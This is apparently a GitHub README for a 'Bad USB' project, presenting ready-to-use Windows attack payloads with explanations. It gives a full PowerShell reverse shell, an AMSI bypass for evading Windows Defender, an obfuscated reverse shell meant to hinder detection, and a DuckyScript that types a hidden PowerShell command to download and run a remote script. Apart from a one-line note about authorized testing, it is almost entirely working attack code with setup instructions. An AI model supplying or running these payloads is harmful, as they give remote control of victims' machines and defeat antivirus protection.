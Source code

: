 # Pico Turned Bad USB

PowerShell Pentest Scripts
This repository contains several PowerShell scripts and DuckyScript payloads for red teaming, CTFs, or educational research on Windows targets.
Use responsibly and only on systems you are authorized to test.

File 1: Reverse Shell (PowerShell)
Script:

powershell
$client = New-Object System.Net.Sockets.TCPClient("YOUR_IP",L_PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
Purpose:
Establishes a reverse TCP shell from the target machine to an attacker's server. Once connected, the attacker can execute PowerShell commands on the victim's machine remotely, and the output is sent back over the same connection.

How it works:

Connects to the attacker's machine (YOUR_IP/L_PORT must be set).

Waits for commands, executes them with iex, and returns output.

Keeps the shell open until the connection closes.

File 2: Windows Defender Bypass & Obfuscated Reverse Shell
Defender Bypass
powershell
$s = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$s::amsiInitFailed = $true;
Purpose:
Disables Windows Antimalware Scan Interface (AMSI), helping PowerShell scripts evade detection by Windows Defender.

Obfuscated Reverse Shell
powershell
$ip='YOUR_IP';$p=L_PORT;
$tc='System.Net.Sockets.TCPClient';$t=New-Object ($tc) ($ip,$p);
$s=$t.GetStream();
$buf=0..65535|%{0};
$enc='System.Text.ASCIIEncoding';
while(($i=$s.Read($buf,0,$buf.Length)) -ne 0){
    $d=(New-Object -TypeName $enc).GetString($buf,0,$i);
    $sb=(iex $d 2>&1 | Out-String );
    $sb2 = $sb+'PS '+(pwd).Path+'> ';
    $send=([text.encoding]::ASCII).GetBytes($sb2);
    $s.Write($send,0,$send.Length);$s.Flush()
};$t.Close()
Purpose:
A reverse shell using shorter, variable-based names to hinder detection.

How it works:

Obfuscates variable and type names.

Connects back to attacker's server with IP and port.

Receives commands, executes, sends output back.

File 3: DuckyScript – Remote Loader
text
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 800
STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
ENTER
Purpose:
This DuckyScript automates opening the Windows Run dialog, launching a hidden PowerShell window, and executing a remote PowerShell payload downloaded from your server.

How it works:

Waits 1 second, then opens the Run dialog (GUI r).

Types and runs a hidden PowerShell session.

Downloads and executes a remote PowerShell script using IEX (Invoke-Expression) and Net.WebClient.

Customization:

Replace YOUR_IP, L_PORT, and YOUR_FILE.ps1 with your server details and script filename.

Ensure your server is accessible from the target.

